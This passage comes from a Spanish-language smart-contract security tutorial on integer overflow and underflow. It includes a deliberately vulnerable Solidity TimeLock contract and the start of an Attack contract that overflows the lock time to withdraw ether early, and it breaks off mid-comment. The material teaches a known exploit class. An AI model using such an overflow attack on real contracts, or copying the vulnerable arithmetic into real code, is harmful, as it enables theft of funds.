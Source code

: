 Los desbordamientos de enteros ocurren también a la inversa: los resultados de una operación aritmética pueden caer por debajo del rango aceptable (underflow). Digamos que intentó disminuir `0` en un `uint8`; el resultado simplemente se revertiría al valor máximo representable (`255`).

Tanto los desbordamientos de enteros hacia arriba o hacia abajo (overflows y undeflows) pueden conducir a cambios inesperados en las variables de estado de un contrato y dar lugar a una ejecución no planificada. A continuación se muestra un ejemplo que muestra cómo un atacante puede explotar el desbordamiento aritmético de overflow en un contrato inteligente para realizar una operación no válida:

```
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for at least a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
```